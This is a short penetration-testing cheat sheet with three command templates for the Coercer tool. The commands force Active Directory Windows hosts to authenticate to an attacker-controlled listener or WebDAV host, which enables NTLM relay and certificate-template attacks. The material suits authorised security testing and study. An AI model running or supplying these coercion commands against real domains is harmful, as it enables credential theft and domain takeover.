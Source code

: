 # coercer

% adcs, certificate, windows, Active directory, template

## coercer - list vulns
#plateform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain_fqdn>' -u '<user>' -p '<password>' --listener <hackerIp> <targetIp> 
```

## coercer - Webdav
#plateform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain_fqdn>' -u '<user>' -p '<password>' --webdav-host '<ResponderMachineName>' <targetIp> 
```

## coercer - List vulns many targets
#plateform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain_fqdn>' -u '<user>' -p '<password>' --listener <hackerIp> --targets-file <PathToTargetFile> 
```